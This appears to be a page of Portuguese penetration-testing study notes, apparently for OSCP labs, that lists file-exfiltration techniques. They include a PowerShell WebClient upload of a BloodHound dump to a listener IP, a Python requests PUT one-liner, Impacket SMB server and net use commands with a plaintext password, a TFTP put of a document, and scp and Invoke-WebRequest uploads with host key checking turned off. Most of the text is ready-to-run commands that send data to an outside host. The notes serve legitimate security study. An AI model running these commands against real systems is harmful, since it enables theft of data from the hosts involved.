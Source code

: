     (new-object system.net.webclient).uploadfile('http://192.168.49.120/20220915120636_BloodHound', '20220915120636_BloodHound')

### python

    python3 -c 'import requests; import os; filename="test.txt"; length=os.path.getsize(filename); requests.put("http://127.0.0.1:8000/"+filename, data=open(filename, "r").read(length))'


## SMB

    cp vulns.csv \\192.168.0.253\share\vulns.csv

 OBS: não esquecer de colcoar a flag "smb2support" no comando
 
     impacket-smbserver -smb2support share .

Vale considerar que em alguns casos é necessário utilizar senhas para acesso a compartilhamento de arquivos. Nesse caso é necessário fazer o seguinte:

    net use \\10.10.14.4\smb /user:teste Test@123
    copy \\10.10.14.4\smb\PowerUp.ps1 pu.ps1

No caso do servidor fica:

    impacket-smbserver -smb2support -username teste -password Test@123 smb .
     
## TFTP

Não vem instalado nos sistemas operacinoais do windows 7 para cima
Somente windows XP, 2003 para baixo:

    tftp -i 10.11.0.4 put important.docx
    
## SSH
    
    scp -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" powershell-uploads acosta@192.168.119.165:/home/acosta/powershell-uploads
    
    
    $client.uploadfile('http://192.168.119.165/powershell-uploads','put', 'powershell-uploads')
    
    invoke-webrequest http://192.168.119.165:8000/upload -Method PUT -infile powershell-uploads -contenttype application/octet-stream
    
    scp -o "StrictHostKeyChecking=no" -o "UserKnownHostsFile=/dev/null" try-harder-ftp-service acosta@192.168.119.165:/home/acosta/
    
    scp -o "StrictHostKeyChecking=no" -o "UserKnownHostsFile=/dev/null" try-harder-ftp-service acosta@192.168.119.165:/home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/ftphome